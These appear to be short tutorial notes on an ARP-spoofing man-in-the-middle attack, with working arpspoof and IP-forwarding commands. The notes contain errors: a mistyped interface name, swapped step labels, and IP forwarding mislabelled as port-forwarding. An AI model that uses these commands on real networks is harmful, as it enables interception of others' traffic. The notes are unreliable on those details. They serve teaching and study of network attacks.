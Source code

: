 hacker intercepts arp requests between clients and server, monitoring the packets being exchanged
<p>Man-in-the-middle</p>

- clients accept responses even if they did not send a request
- clients trust repsonse without any form of verification

<p>1. Fool the router that you are the client</p>

```
arpspoof -i eth0 -t *target machine* *gateway/router*
```

<p>2. Fool the client that you are the router</p>

```
arpspoof -i etho0 -t *gateway/router* *target machine*
```

<p>3. Enable your machine to forward requests like a router <b>(port-forwarding)</b></p>

```
echo 1 > /proc/sys/net/ipv4/ip_forward
```
